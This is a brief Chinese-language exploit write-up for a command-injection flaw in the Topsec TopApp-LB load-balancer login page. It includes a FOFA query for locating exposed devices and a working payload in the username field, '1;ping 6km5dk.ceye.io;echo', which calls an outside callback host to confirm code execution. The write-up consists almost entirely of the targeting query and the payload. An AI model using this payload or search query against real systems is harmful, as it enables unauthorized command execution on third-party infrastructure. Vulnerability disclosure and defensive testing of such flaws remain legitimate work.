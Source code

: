 # 天融信负载均衡TopApp-LB命令执行漏洞

## 漏洞描述

天融信负载均衡TopApp-LB系统存在任意命令执行

## 影响版本

天融信负载均衡TopApp-LB

## FOFA

> [!NOTE]
>
> app="天融信-TopApp-LB-负载均衡系统"

## 漏洞复现

登录界面中存在命令执行

账号:**1;ping 6km5dk.ceye.io;echo**

密码:**任意**

![](image/trx-3.png)

成功收到请求

![](image/trx-4.png)